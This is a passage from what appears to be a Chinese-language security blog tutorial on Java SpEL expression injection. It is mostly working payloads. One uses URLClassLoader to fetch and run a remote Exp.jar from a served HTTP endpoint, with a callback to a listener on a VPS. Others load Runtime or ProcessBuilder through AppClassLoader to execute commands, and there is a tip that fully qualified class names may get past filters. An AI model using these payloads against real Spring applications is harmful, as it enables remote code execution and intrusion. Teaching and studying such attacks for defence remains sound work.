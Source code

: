 起一个 http 服务示例

BASH

```
python -m SimpleHTTPServer 8990
```

Payload

注意必须使用全限定类名 , 或许这个可以过一些bypass

JAVA

```
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")
```

在 vps 上开启监听 2333 端口即可。

#### AppClassLoader

- 加载 Runtime 执行

由于需要调用到静态方法所以还是要用到 `T()` 操作

JAVA

```
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
```

- 加载 ProcessBuilder 执行

JAVA

```
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

![img](https://drun1baby.top/2022/09/23/Java-%E4%B9%8B-SpEL-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/AppClassLoader.png)

#### 通过其他类获取 AppClassLoader

**实例1:**

使用 SpEL 的话一定存在名为 `org.springframework` 的包，这个包下有许许多多的类，而这些类的 classloader 就是 AppClassLoader

![img](https://drun1baby.top/2022/09/23/Java-%E4%B9%8B-SpEL-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/framework.png)

比如: `org.springframework.expression.Expression` 类

JAVA

```
System.out.println( org.springframework.expression.Expression.class.getClassLoader() );
```

那么很容易就可以得到一个获取 AppClassLoader 的方法 ,
